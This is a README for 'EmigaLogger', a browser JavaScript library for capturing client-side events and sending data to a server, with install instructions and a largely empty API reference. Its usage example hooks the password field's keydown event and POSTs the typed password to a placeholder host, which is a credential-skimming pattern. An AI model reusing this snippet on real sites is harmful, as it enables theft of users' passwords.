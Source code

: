 <p align="center">
  <img src="demo/demo.png" />
</p>

<h1 align="center">EmigaLogger for Browsers</h1>

<div align="center">

![GitHub release (latest by date)](https://img.shields.io/github/v/release/eminmuhammadi/EmigaLogger)
![GitHub](https://img.shields.io/github/license/eminmuhammadi/EmigaLogger)
![GitHub file size in bytes](https://img.shields.io/github/size/eminmuhammadi/EmigaLogger/dist/EmigaLogger.min.js)

<p align="center">EmigaLogger combines several modules to send a valuable client-side information to the database</p>
</div>

## Install
```html
<script type="text/javascript" src="https://cdn.jsdelivr.net/gh/eminmuhammadi/EmigaLogger@v1.0.1/dist/EmigaLogger.min.js"></script>
```

## Usage
```js
const Logger   = new EmigaLogger();
const Data     = new EmigaData();
const Selector = new EmigaSelector();

const Password = Selector.Select('input[name=password]');
Logger.Log(Password,'keydown',()=>{
    Data.Send('https://example.com',{
        method: 'POST',
        body: JSON.stringify({
           password: Selector.Value(Password)
        }) 
    });
});
```
For examples  [./demo/](demo)
- `button`  [./demo/button.html](demo/button.html)
- `example` [./demo/example.html](demo/example.html)
- `form`    [./demo/form.html](demo/form.html)
- `input`   [./demo/input.html](demo/input.html)

## API Reference
### new EmigaLogger()
#### EmigaLogger().Log(query,state,callback)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|
| state     |      	|         	|             	|
| callback  |      	|         	|             	|

#### EmigaLogger.Call(callback)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| callback  |      	|         	|             	|

### new EmigaSelector()
#### EmigaSelector().Select(query)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| query     |      	|         	|             	|

#### EmigaSelector().Submit(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

#### EmigaSelector().Value(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

#### EmigaSelector().Text(element)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| element   |      	|         	|             	|

### new EmigaData()
#### EmigaData().Serialize(form)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| form      |      	|         	|             	|

#### EmigaData().Send(url,options)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| url       |      	|         	|             	|
| options.method         |      	|    `GET`,`POST`,`PUT`,`HEAD`,`DELETE`,`PATCH`,`OPTIONS` |             	|
| options.mode           |      	|   `no-cors`, `cors`, `same-origin`  |             	|
| options.cache          |      	|  `Value`, `no-cache`, `reload`, `force-cache`, `only-if-cached` |             	|
| options.credentials    |      	| `include`, `same-origin`, `omit`        	|             	|
| options.headers        |      	|         	|             	|
| options.redirect       |      	|  `manual`, `follow`, `error` |             	|
| options.referrerPolicy |      	|  `no-referrer`, `client` |             	|
| options.body           |      	|         	|             	|

### new EmigaToken()
#### EmigaToken().uuid()
### new EmigaCookies()
#### EmigaCookies().Get(name)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|

#### EmigaCookies().Set(name,value,options)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|
| value     |      	|         	|             	|
| options.expires   |      	|         	|             	|
| options.path      |      	|   `/` (default)  	|             	|
| options.domain    |      	|         	|             	|
| options.secure    |      	|   `true`, `false`      	|             	|
| options.sameSite  |      	|    `lax`, `strict`     	|             	|

#### EmigaCookie().Delete(name)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	|         	|             	|

#### EmigaCookie().Cookie(name,value,days)

| Param 	| Type 	| Value 	| Description 	|
|-------	|------	|---------	|-------------	|
| name      |      	| `X-UUID` (default)  |             	|
| value     |      	|           |             	|
| days     |      	|  `1`  (default)    |             	|

### new EmigaInit(event)
